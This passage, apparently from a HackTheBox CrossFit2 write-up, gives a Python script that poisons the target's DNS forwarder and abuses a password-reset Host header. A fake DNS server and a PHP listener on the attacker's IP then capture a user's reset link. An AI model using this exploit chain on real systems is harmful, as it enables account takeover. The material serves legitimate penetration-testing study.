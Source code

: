 python script to automate this
```py
from re import findall
from time import sleep
from subprocess import Popen, PIPE, STDOUT
from os import system
import requests as r

websocket = "ws://gym.crossfit.htb/ws/"
url = "http://employees.crossfit.htb/password-reset.php"
def req_token():
    data = {"email": "david.palmer@crossfit.htb"}
    headers = {"Connection": "keep-alive", "Host": "employeesXcrossfit.htb/employees.crossfit.htb"}
    rspn = r.post(url, data=data, headers=headers)
    alert = findall(r'role="alert">(.*?)<button', rspn.text)[0]
    return alert


fakedns = "/home/x00tex/git-tools/FakeDns/fakedns.py"
conf = "fakedns.conf"

# system('unbound-control -c ./unbound.conf -s 10.10.10.232 forward_add +i ex-employees.crossfit.htb 10.10.15.71')
system('unbound-control -c ./unbound.conf -s 10.10.10.232 forward_add +i employeesXcrossfit.htb 10.10.15.71')
out = Popen(['python', f'{fakedns}', '-c', f'{conf}'], stdout=PIPE, stderr=STDOUT)

sleep(5)
rspn = req_token()
print(rspn)
if "Reset link sent" in rspn:
    system("sudo php -S 0.0.0.0:80")
else:
    out.kill()
    exit()
```

### Socket.io listener hooking

After login to `crossfit-club.htb` found only functional page `chat`
